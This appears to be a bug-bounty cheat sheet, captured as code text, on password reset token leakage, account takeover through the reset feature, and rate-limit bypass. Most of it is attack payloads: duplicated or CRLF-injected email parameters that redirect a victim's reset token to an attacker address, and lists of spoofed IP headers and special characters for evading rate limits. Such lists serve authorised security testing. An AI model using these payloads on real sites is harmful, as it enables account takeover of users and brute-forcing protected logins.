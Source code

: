 ```
1. password reset token leakage
      1. Sent a password reset request using forget password
      2. Check your email
      3. Copy your reset page link and paste in another tab and make burp intercept on.
      4. Look for every request if you find similar token that is in reset link with other domain like: bat.bing.com or facebook.com
      5. Then there is reset password token leakage.
1. account takeover by password reset functionality
      1. email= victim@gmail.com&email=attacker@gmil.com
      2. email= victim@gmail.com%20email=attacker@gmil.com
      3. email= victim@gmail.com |email=attacker@gmil.com
      4. email= victim@gmail.com%0d%0acc:attacker@gmil.com
      5. email= victim@gmail.com&code= my password reset token

## Rate limit
1. rate-limit bypass
    * customizing HTTP methods
        * change the GET request to POST, PUT, etc.
        * bypassing rate-limit in API's try HEAD method
        * using header to bypass the rate limit
          (use the following just below the host header)

          ```
X-Forwarded-For: IP
X-Forwarded-IP: IP
X-Client-IP: IP
X-Remote-IP: IP
X-Originating-IP: IP
X-Host: IP
X-Client: IP

#or use double X-Forwarded-For header
X-Forwarded-For:
X-Forwarded-For: IP
```

    * addding headers to spoof IP
        * add HTTP headers to spoof IP n evade detection

        ```
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

        * bypass rate limit using special characters
          * adding null byte (%00) at the end of the email
          * try add a space after the email (not encoded)
          * other characters can be tried to bypass rate limit `%0d , %2e , %09 , %20 , %0, %00, %0d%0a, %0a, %0C`
          * add a slash (/) at the end of api endpoint
            from`domain.com/v1/login` to `domain.com/v1/login/`
          eg: https://hackerone.com/reports/1067533
        * using IP rotate burp extension
        other ref: https://kathan19.gitbook.io/howtohunt/rate-limit/ratelimitbypass
```